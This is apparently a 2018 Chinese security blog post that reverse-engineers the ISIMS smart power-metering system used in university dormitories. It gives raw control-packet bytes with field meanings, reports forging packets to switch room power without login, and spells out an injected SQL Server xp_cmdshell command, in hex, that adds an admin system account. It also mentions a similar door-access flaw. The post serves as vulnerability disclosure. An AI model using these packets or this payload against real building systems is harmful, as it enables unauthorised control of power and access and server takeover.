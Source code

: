 ```yaml
---
layout:     post
title:      论操纵大楼灯光打游戏的可行性
subtitle:   对ISIMS智能电控系统的分析
date:       2018-03-02
author:     volcanohatred
header-img: img/articles/控电/title.jpg
catalog: true
tags:
    - 逆向
    - socket编程
    - 渗透测试
    - 极客
---
```



>黑入电控系统然后操纵大楼灯光打游戏是很多黑客电影所有的桥段，有人觉得现实中不可能实现。我想说这种东西实现起来很容易，要想操纵电力，无非是操纵智能电控系统然后控制电力而已（当然不排除其他方法）。很多人可能会问，现实生活中不是都是机械开关么？哪来的智能电控系统，其实不然，智能电控早已普遍存在，只是很多人不知道而已。




## 1.智能电控系统

智能电控系统即对强电加入智能弱电控制模块，从而达到对电力的控制和操作。近年来，很多大型企业、学校单位为了方便对电力的管理和收费，都引进了对楼宇的智能电控系统。而且随着网络化和智能化的发展和普及，对智能电控系统的布控在国内也成增长趋势。国内做智能电控系统的厂家很多，比如新开普的电控水电表管理系统，常工电子的ISIMS智能计量管理系统等。
但是，智能电子产品的应用越普及，意味着对安全的需求也越高，作为一个安全从业者，有必要对其产品的安全进行严格把控。
## 2.对ISIMS智能计量管理软件的分析

在一次渗透测试中，拿到了某大学的电力控制服务器权限，所以本文就以这台服务器上的ISIMS智能计量管理软件为研究对象，进行分析。
ISIMS智能计量管理软件是常州股份公司开发的产品，因为它的方便性和智能性，使得国内很多大学都在用它来进行学生宿舍的计费和控制。ISIMS智能计量管理软件属于注册商用软件，所以网上是没有下载的。闲的无聊去公司官网看了看，发现应用案例还挺多。
![应用案列1](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片1.png)
![应用案列2](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片2.png)

话不多说，开始分析吧！！！


注：此研究软件的版本        客户端 Sims 	   v3.23.15
		                  服务端 Simserv 	v3.24.01

### 2.1工作模式

ISIMS的工作模式如下图：

![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片3.png)

client（tcp client）—>server(tcp server)—>中位机（tcp client）

ISIMS电控系统采用C/S模式进行通讯，由客户端发送控制代码给电控服务端，服务端收到控制数据发往每层楼的中位机以此实现弱电控制强电。

### 2.2传输数据分析

用WPE对客户端的数据进行抓包分析：
A用户登陆数据包：
![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片4.png)

电力控制数据包：

![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片5.png)

A用户注销数据包：

![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片6.png)

开关成功返回数据：

![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片7.png)

经过对数据包进行大致分析，发现传送的数据均没有进行加密处理，而且发现客户端发送的数据并无时效性，这样伪造数据包显得轻而易举。另外，对电力的控制数据包大小固定，为543字节，如果控制命令成功执行，则返回一个29字节的数据包，否则返回一个21字节大小的数据包。但是要想伪造数据包对某个特定房间进行开关电，则需要对电力控制的那个大小为543字节的数据包进行解析才能随意构造。
A用户对某个房间开数据，发往服务器：

`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00`
`33 04 10 37 33 02 F3 00 00 00 00 00 00 69 0E 38 02 CD AB BA DC 00 00 00 00 00 00 00 00 69` `0E 38 02 AC F9 18 00 C8 F9 18 00 30 02 17 76 B8 6B 44 06 14 FA 18 00 91 6D 10 76 51 6D 10` `76 75 DE 87 6E 00 00 00 00 4A 03 03 00 B8 6B 44 06 24 00 00 00 01 00 00 00 00 00 00 00 00` `00 00 00 70 00 00 00 FF FF FF FF FF FF FF FF E9 6C 10 76 91 6D 10 76 0C FA 18 00 01 00 00` `00 00 00 00 00 7C 5E 43 06 B8 F9 18 00 60 FA 18 00 60 FA 18 00 1E A6 16 76 39 49 8F 18 FE` `FF FF FF 51 6D 10 76 E8 6D 10 76 00 00 00 00 69 0E 38 02 4A 03 03 00 99 01 00 00 03 00 00` `00 00 00 00 00 48 22 F2 00 F3 6D 10 76 11 DE 87 6E 99 01 00 00 00 00 00 00 B8 6B 44 06 04` `00 00 00 B8 C7 4B 00 7C 5E 43 06 3C FA 18 00 B8 6B 44 06 BC FA 18 00 1E A6 16 76 99 49 8F` `18 FE FF FF FF F3 6D 10 76 44 6E 10 76 20 22 F2 00 DA F8 2C 77 57 6E 10 76 94 FA 18 00 18` `00 00 00 00 00 00 00 20 22 F2 00 7C 5E 43 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` `00 00 00 00 00 24 FB 18 00 1A 01 2C 77 C4 FA 18 00 00 00 00 00 9C FB 18 00 80 00 2C 77 20` `22 F2 00 00 00 00 00 99 01 00 00 03 00 00 00 00 00 00 00 69 0E 38 02 D2 25 2E 77 04 00 00` `00 B9 72 10 76 61 21 11 76 4A 03 03 00 99 01 00 00 03 00 00 00 00 00 00 00 00 00 00 00 B1` `02 00 00 01 00 00 00 00 00 00 00 99 01 00 00 B8 6B 44 06 00 00 00 00 AC FD 18 00 4A 03 03` `00 00 00 00 00 48 FB 18 00 7A 61 11 76 20 22 F2 00 00 00 00 00 69 0E 38 02 03 00 00 00 00` `00 00 00 01 00 00 00 03 00 00 00 BC FB 18 00 8F 85 47 00 4A 03 03 00 99 01 00 00 03 00 00` `00 F7 3C 40 00 03 00 00 00 7C 5E 43 06 B8 62 51 00 B8 6B 44 06 03 00 00 00 03 00 00 00 B8`
 `6B 44 00 `

服务器发往中位机的数据：（对服务端进行抓包）

```
7D 33 04 10 37 33 02 F3 00 AB EA 7F
```

### 2.3逆向分析

ISIMS客户端由3个动态链接库文件、1个配置文件和1个可执行文件组成。分别是CtoS.dll,midas.dll,Mwic_32.dll;
SimsClient.ini;SIMS.exe。SimsClient.ini里面是一些服务器ip，端口的信息，所以目的是对3个动态链接库文件和可执行文件进行逆向分析。SIMS.exe无壳，由Delphi编写。
Send函数位于CtoS.dll中，下条件断点使之发送的数据大小为21F（543）时断下：
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片8.png)

在返回点下断找调用函数，以此往上找原数据组成：
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片9.png)
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片10.png)
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片11.png)
通过对数据的拆分，发现543字节大小的数据由3部分组成，前23字节的数据加16字节数据再加后面的数据。
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片12.png)

### 2.4分析总结

发往服务器的543字节的数据中，前39字节为关键数据，后面的数据为无用数据，在前39个字节中后面的9位最为关键：
`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00` `33 04 10 37 33 02 F3 00 00`

33位分隔字符，04位代表楼层编号，10代表中位机号，37为端口号，02 F3 为开电功能位。即：管理器地址+中位机地址+48加端口号》》》》转化成16进制。汇编代码如下：
![控制码](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片13.png)
![控制码](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片14.png)

客户端启动之后会向服务器发送数据库查询指令，服务器会返回各栋楼各个中位机和房间端口的数据，放在某段内存之中，以便发送和接收数据调用。所以，得出结论，要想操纵大楼灯光打游戏就是对控制数据包的前39个字节中的后9位进行构造，然后编写算法以达到目的。


## 3.伪造数据包对寝室电力进行控制

### 3.1伪造数据开关目标房间

初步的设计思路为编写tcp客户端向电控服务器发送登陆请求，然后伪造数据发包,最后注销用户,C代码如下：
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片15.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片22.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片17.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片18.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片19.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片20.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片21.png)

>上面代码中禁用nagel算法很关键，不禁用数据会先放到缓冲区，然后等到一定大小才会发送，这样发送到服务器的数据包会是一个粘在一起的包含登陆控制注销代码的数据包，服务器不会识别。

测试：发现目标房间开关电成功。
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片27.png)
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片28.png)
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片29.png)
### 3.2操纵大楼灯光打游戏的可行性

既然我们已经分析了关键数据实现了对某个房间的开关，那就可以实现对整栋楼房间的开关。但是要想用灯光打游戏，需要考虑的是延迟性和服务器的处理能力，后来我做了相关测试，发现延迟性太高和服务器处理能力不足的问题都有出现：同时发送三个房间的开数据会出现一个房间未能开电。
这里可以改变代码的执行路径，改变ISIMS的工作模式:
![工作模式3](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片23.png)

直接写一个服务器程序向每栋楼的串口通讯服务器的web服务发包。(需要在web服务上添加本机ip，设置端口）。
![串口通讯服务器](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片30.png)
问题得到解决。现在要考虑的就只有游戏代码问题了。（略）

## 4.漏洞挖掘

在无意之中，发现客户端在未发送登陆数据的情况下，发送控制代码依然可以控制目标房间的电力，而在未发送登陆数据的情况下发送注销代码在服务器日志上会被记录为sa用户已退出，初步推断此系统存在验证漏洞。
在之前的OD中看到有数据库执行命令，在客户端中，当用户点击查询指令时，客户端会向服务器发送这段指令：
![漏洞挖掘](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片24.png)

在之前的渗透测试中，发现服务器使用的是sql server数据库，既然服务器对发送的数据验证不严格，可以试着构造恶意数据库命令添加系统用户试试。多次测试分析发现，在执行数据库命令时，数据包前18位不发生改变：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00`

第18、19位用来表示后面要执行的sql语句的字段大小，现在构造一条添加系统用户的语句：
`exec master..xp_cmdshell 'net user admin admin /add'.`

转化位16进制：

`0x65,0x78,0x65,0x63,0x20,0x6d,0x61,0x73,0x74,0x65,0x72,0x2e,0x2e,0x78,0x70,0x5f,0x63,0x6d,`
`0x64,0x73,0x68,0x65,0x6c,0x6c,0x20,0x27,0x6e,0x65,0x74,0x20,0x75,0x73,0x65,0x72,0x20,0x61,`
`0x64,0x6d,0x69,0x6e,0x20,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x27,0x00`(总共53位）再加上前面的20位前缀：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0X35`

将构造的数据通过tcp客户端发送给服务器：
![伪造发包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片25.png)

服务器成功添加新用户！

## 5.扩展测试

上面做了对电力系统的测试，后来我对门禁系统也同样进行了测试，也发现了同样的问题，对数据包的验证同样无时效性，下图为向某个下属刷卡门进行测试：返回1，代表开门成功，门禁系统这里不做讨论。
![门禁](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片26.png)


可以看出在内网之中各种基础设施和系统的脆弱性！！！原因是企业单位往往只是满足于系统的功能性，只要能用就ok，而全然不顾系统的安全性，往往部署完系统，只要能够正常运行，就不再对系统进行升级或者安全检查，这给整个内网早成了很大的安全隐患。
